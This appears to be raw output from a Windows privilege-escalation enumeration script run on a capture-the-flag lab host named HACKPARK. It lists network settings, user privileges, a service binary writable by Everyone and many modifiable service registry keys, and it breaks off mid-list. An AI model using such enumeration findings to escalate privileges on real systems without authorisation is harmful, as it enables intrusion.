   DHCPv6 IAID . . . . . . . . . . . : 335943906
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-24-DA-49-4B-08-00-27-7A-66-52
   DNS Servers . . . . . . . . . . . : 10.0.0.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.eu-west-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

 [+] USED PORTS
   [i] Check for services restricted from the outside
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       788
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       2004
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       592
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       884
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       912
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       1156
  TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:49169          0.0.0.0:0              LISTENING       676
  TCP    10.10.75.215:139       0.0.0.0:0              LISTENING       4
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       788
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:3389              [::]:0                 LISTENING       2004
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49152             [::]:0                 LISTENING       592
  TCP    [::]:49153             [::]:0                 LISTENING       884
  TCP    [::]:49154             [::]:0                 LISTENING       912
  TCP    [::]:49155             [::]:0                 LISTENING       1156
  TCP    [::]:49156             [::]:0                 LISTENING       684
  TCP    [::]:49169             [::]:0                 LISTENING       676

 [+] FIREWALL

Firewall status:
-------------------------------------------------------------------
Profile                           = Standard
Operational mode                  = Enable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable
Group policy version              = Windows Firewall
Remote admin mode                 = Disable

Ports currently open on all network interfaces:
Port   Protocol  Version  Program
-------------------------------------------------------------------
No ports are currently open on all network interfaces.

IMPORTANT: Command executed successfully.
However, "netsh firewall" is deprecated;
use "netsh advfirewall firewall" instead.
For more information on using "netsh advfirewall firewall" commands
instead of "netsh firewall", see KB article 947709
at http://go.microsoft.com/fwlink/?linkid=121488 .

Domain profile configuration:
-------------------------------------------------------------------
Operational mode                  = Enable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable

Service configuration for Domain profile:
Mode     Customized  Name
-------------------------------------------------------------------
Enable   No          Remote Desktop

Allowed programs configuration for Domain profile:
Mode     Traffic direction    Name / Program
-------------------------------------------------------------------

Port configuration for Domain profile:
Port   Protocol  Mode    Traffic direction     Name
-------------------------------------------------------------------

ICMP configuration for Domain profile:
Mode     Type  Description
-------------------------------------------------------------------
Enable   2     Allow outbound packet too big

Standard profile configuration (current):
-------------------------------------------------------------------
Operational mode                  = Enable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable

Service configuration for Standard profile:
Mode     Customized  Name
-------------------------------------------------------------------
Enable   No          Remote Desktop

Allowed programs configuration for Standard profile:
Mode     Traffic direction    Name / Program
-------------------------------------------------------------------

Port configuration for Standard profile:
Port   Protocol  Mode    Traffic direction     Name
-------------------------------------------------------------------

ICMP configuration for Standard profile:
Mode     Type  Description
-------------------------------------------------------------------
Enable   2     Allow outbound packet too big

Log configuration:
-------------------------------------------------------------------
File location   = C:\Windows\system32\LogFiles\Firewall\pfirewall.log
Max file size   = 4096 KB
Dropped packets = Disable
Connections     = Disable

IMPORTANT: Command executed successfully.
However, "netsh firewall" is deprecated;
use "netsh advfirewall firewall" instead.
For more information on using "netsh advfirewall firewall" commands
instead of "netsh firewall", see KB article 947709
at http://go.microsoft.com/fwlink/?linkid=121488 .

 [+] ARP

Interface: 10.10.75.215 --- 0xe
  Internet Address      Physical Address      Type
  10.10.0.1             02-c8-85-b5-5a-aa     dynamic
  10.10.255.255         ff-ff-ff-ff-ff-ff     static
  169.254.169.254       02-c8-85-b5-5a-aa     dynamic
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.252           01-00-5e-00-00-fc     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static

 [+] ROUTES
===========================================================================
Interface List
 14...02 bb 51 88 88 4b ......AWS PV Network Device #0
  1...........................Software Loopback Interface 1
 13...00 00 00 00 00 00 00 e0 Microsoft ISATAP Adapter
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0        10.10.0.1     10.10.75.215     10
        10.10.0.0      255.255.0.0         On-link      10.10.75.215    266
     10.10.75.215  255.255.255.255         On-link      10.10.75.215    266
    10.10.255.255  255.255.255.255         On-link      10.10.75.215    266
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    306
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    306
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    306
  169.254.169.123  255.255.255.255        10.10.0.1     10.10.75.215     20
  169.254.169.249  255.255.255.255        10.10.0.1     10.10.75.215     20
  169.254.169.250  255.255.255.255        10.10.0.1     10.10.75.215     20
  169.254.169.251  255.255.255.255        10.10.0.1     10.10.75.215     20
  169.254.169.253  255.255.255.255        10.10.0.1     10.10.75.215     20
  169.254.169.254  255.255.255.255        10.10.0.1     10.10.75.215     20
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    306
        224.0.0.0        240.0.0.0         On-link      10.10.75.215    266
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    306
  255.255.255.255  255.255.255.255         On-link      10.10.75.215    266
===========================================================================
Persistent Routes:
  None

IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  1    306 ::1/128                  On-link
 14    266 fe80::/64                On-link
 14    266 fe80::5a9:a200:3d0f:4496/128
                                    On-link
  1    306 ff00::/8                 On-link
 14    266 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None

 [+] Hosts file

 [+] DNS CACHE

 [+] WIFI
[*] BASIC USER INFO
   [i] Check if you are inside the Administrators group or if you have enabled any token that can be use to escalate privileges like SeImpersonatePrivilege, SeAssignPrimaryPrivilege, SeTcbPrivilege, SeBackupPrivilege, SeRestorePrivilege, SeCreateTokenPrivilege, SeLoadDriverPrivilege, SeTakeOwnershipPrivilege, SeDebbugPrivilege
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#users-and-groups

 [+] CURRENT USER
User name                    Administrator
Full Name
Comment                      Built-in account for administering the computer/domain
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/3/2019 10:43:23 AM
Password expires             9/14/2019 10:43:23 AM
Password changeable          8/3/2019 10:43:23 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/22/2024 8:15:02 AM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.

The request will be processed at a domain controller for domain WORKGROUP.

USER INFORMATION
----------------

User Name              SID
====================== ===========================================
hackpark\administrator S-1-5-21-141259258-288879770-3894983326-500

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Enabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Enabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled

ERROR: Unable to get user claims information.

 [+] USERS

User accounts for \\HACKPARK

-------------------------------------------------------------------------------
Administrator            Guest                    jeff
The command completed successfully.

 [+] GROUPS

Aliases for \\HACKPARK

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Certificate Service DCOM Access
*Cryptographic Operators
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Users
*WinRMRemoteWMIUsers__
The command completed successfully.

 [+] ADMINISTRATORS GROUPS
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.

 [+] CURRENT LOGGED USERS
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         console             1  Active      none   10/22/2024 8:15 AM

 [+] Kerberos Tickets

Current LogonId is 0:0x28bbb

Cached Tickets: (0)

 [+] CURRENT CLIPBOARD
   [i] Any passwords inside the clipboard?

[*] SERVICE VULNERABILITIES

 [+] SERVICE BINARY PERMISSIONS WITH WMIC and ICACLS
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
C:\Program Files\Amazon\EC2Launch\EC2Launch.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)

C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                 BUILTIN\Administrators:(I)(F)

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe NT SERVICE\TrustedInstaller:(F)

C:\Program Files\Amazon\XenTools\LiteAgent.exe NT AUTHORITY\SYSTEM:(I)(F)
                                               BUILTIN\Administrators:(I)(F)

C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                       BUILTIN\Administrators:(I)(F)

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWow64\perfhost.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\PSSDNSVC.EXE NT AUTHORITY\SYSTEM:(I)(F)
                        BUILTIN\Administrators:(I)(F)

C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)

C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  BUILTIN\Administrators:(I)(F)

 [+] CHECK IF YOU CAN MODIFY ANY SERVICE REGISTRY
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\.NETFramework
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\1394ohci
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\3ware
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ACPI
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\acpiex
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\acpipagr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AcpiPmi
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\acpitime
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ADP80XX
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\adsi
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AeLookupSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AFD
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\agp440
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ahcache
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ALG
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AmazonSSMAgent
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AmdK8
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AmdPPM
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\amdsata
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\amdsbs
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\amdxata
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AppHostSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AppID
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AppIDSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Appinfo
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AppMgmt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AppReadiness
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AppXSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\arcsas
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ASP.NET
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ASP.NET_4.0.30319
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\aspnet_state
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AsyncMac
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\atapi
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AudioEndpointBuilder
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Audiosrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AWSLiteAgent
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\AWSNVMe
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\b06bdrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\BasicDisplay
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\BasicRender
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\BattC
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Beep
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\bfadfcoei
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\bfadi
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\BFE
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\BITS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\bowser
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\BrokerInfrastructure
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Browser
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\bxfcoe
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\bxois
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\cdfs
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\cdrom
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\CertPropSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\cht4vbd
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\CLFS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\clr_optimization_v4.0.30319_32
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\clr_optimization_v4.0.30319_64
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\CmBatt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\CNG
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\CngHwAssist
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\CompositeBus
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\COMSysApp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\condrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\crypt32
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\CryptSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\DCLocator
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\defragsvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\DeviceAssociationService
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\DeviceInstall
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Dfsc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Dhcp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\disk
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\dmvsc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Dnscache
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\dot3svc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\drmkaud
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\DsmSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\DXGKrnl
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\E1G60
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Eaphost
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ebdrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Ec2Config
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\EFS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\elxfcoe
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\elxstor
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ErrDev
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ESENT
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\EventLog
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\EventSystem
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\exfat
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\fastfat
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\fcvsc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\fdc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\fdPHost
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\FDResPub
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\FileInfo
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Filetrace
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\flpydisk
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\FltMgr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\FontCache
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\FsDepends
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Fs_Rec
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\FxPPM
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\gagp30kx
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\gencounter
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\GPIOClx0101
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\HdAudAddService
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\HDAudBus
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\HidBatt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\hidserv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\HidUsb
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\hkmsvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\HpSAMD
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\HTTP
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\hwpolicy
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\hyperkbd
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\HyperVideo
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\i8042prt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\iaStorAV
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\iaStorV
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ibbus
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\IEEtwCollectorService
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\IKEEXT
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\inetaccs
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\InetInfo
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\intelide
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\intelppm
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\IpFilterDriver
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\iphlpsvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\IPMIDRV
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\IPNAT
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\isapnp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\iScsiPrt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\kbdclass
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\kbdhid
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\kdnic
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\KeyIso
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\KPSSVC
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\KSecDD
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\KSecPkg
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ksthunk
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\KtmRm
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\LanmanServer
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\LanmanWorkstation
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ldap
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\lltdio
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\lltdsvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\lmhosts
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Lsa
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\LSI_SAS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\LSI_SAS2
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\LSI_SAS3
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\LSI_SSS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\LSM
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\luafv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\megasas
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\megasr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mlx4_bus
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MMCSS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Modem
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\monitor
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mouclass
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mouhid
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mountmgr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mpsdrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MpsSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mrxsmb
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mrxsmb10
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mrxsmb20
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MsBridge
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MSDTC
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MSDTC
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Msfs
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mshidkmdf
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mshidumdf
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\msisadrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MSiSCSI
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\msiserver
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MSKSSRV
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MsLbfoProvider
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MSPCLOCK
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MSPQM
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MsRPC
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mssmbios
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MSTEE
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\MTConfig
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Mup
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\mvumis
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\napagent
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NcaSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ndfltr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NDIS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NdisCap
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NdisImPlatform
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NdisTapi
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Ndisuio
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NdisVirtualBus
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NdisWan
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NDISWANLEGACY
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NDProxy
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NetBIOS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NetBT
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Netlogon
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Netman
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\netprofm
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NetTcpPortSharing
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\netvsc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NlaSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Npfs
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\npsvctrig
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\nsi
